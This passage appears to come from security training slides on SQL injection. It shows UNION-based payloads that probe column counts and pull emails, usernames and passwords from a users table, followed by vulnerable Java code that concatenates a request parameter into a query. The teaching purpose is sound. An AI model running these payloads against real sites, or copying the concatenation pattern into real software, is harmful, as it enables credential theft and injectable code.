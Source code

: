 returning all records with "owasp" somewhere in the title.


---

# :pushpin: Exploit Examples

## Spying out Data

:-1: This will **not** work unless both result sets coincidentally have
an equal number of columns:

```sql
' UNION SELECT * FROM users--
```

:point_up: Additional closing braces might be needed depending on the
original query:

```sql
') UNION SELECT * FROM users--
```

---

Static values are useful to probe for the right number of result set
columns:

```sql
' UNION SELECT 1 FROM users--
```

```sql
' UNION SELECT 1,2 FROM users--
```

```sql
' UNION SELECT 1,2,3 FROM users--
```

1=:-1:, 2=:-1:, 3=:+1:!

Now only some actual column names have to be guessed or inferred:

```sql
' UNION SELECT email,username,passwd FROM users--
```


---

# :seedling: Root Cause of SQL Injection

## :x: Vulnerable Code Example

```java
String query = "SELECT * FROM books " +
        "WHERE title LIKE '%" + req.getParameter("query") + "%'";
 Statement statement = connection.createStatement();
 ResultSet results = statement.executeQuery(query);
```
